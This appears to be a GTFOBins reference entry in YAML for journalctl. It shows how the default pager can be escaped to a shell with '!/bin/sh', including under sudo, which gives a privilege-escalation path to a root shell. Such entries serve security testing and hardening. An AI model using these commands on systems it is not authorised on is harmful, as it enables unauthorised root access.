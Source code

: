 ```yaml
---
name: journalctl
description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  shell:
    - code: |
        journalctl
        !/bin/sh
  sudo:
    - code: |
        sudo journalctl
        !/bin/sh
---
```

